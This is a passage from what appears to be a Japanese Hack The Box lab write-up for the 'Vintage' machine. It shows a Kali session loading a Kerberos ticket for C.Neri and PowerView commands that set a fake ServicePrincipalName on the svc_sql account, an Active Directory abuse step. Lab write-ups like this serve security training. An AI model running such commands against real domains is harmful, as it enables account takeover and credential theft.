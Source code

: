 ![image-20250111142244452](screenshot/image-20250111142244452.png)

今度は `C.Neri` から `svc_sql` にServicePrincipalNameを設定します。

```bash
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ export KRB5CCNAME=C.Neri.ccache    
                    
┌──(kali㉿kali)-[~/HTB/machine/Windows/Vintage]
└─$ klist
Ticket cache: FILE:C.Neri.ccache
Default principal: C.Neri@VINTAGE.HTB

Valid starting       Expires              Service principal
2025-01-13T11:03:38  2025-01-13T21:03:38  krbtgt/VINTAGE.HTB@VINTAGE.HTB
	renew until 2025-01-14T11:03:37
```

```bash
powerview -k --no-pass vintage.htb/C.Neri@dc01.vintage.htb
```

```powershell
Set-DomainObject -Identity svc_sql -Set 'ServicePrincipalName=cifs/fake'
Get-DomainObject -Identity svc_sql -Properties ServicePrincipalName
```

![image-20250111161401965](screenshot/image-20250111161401965.png)
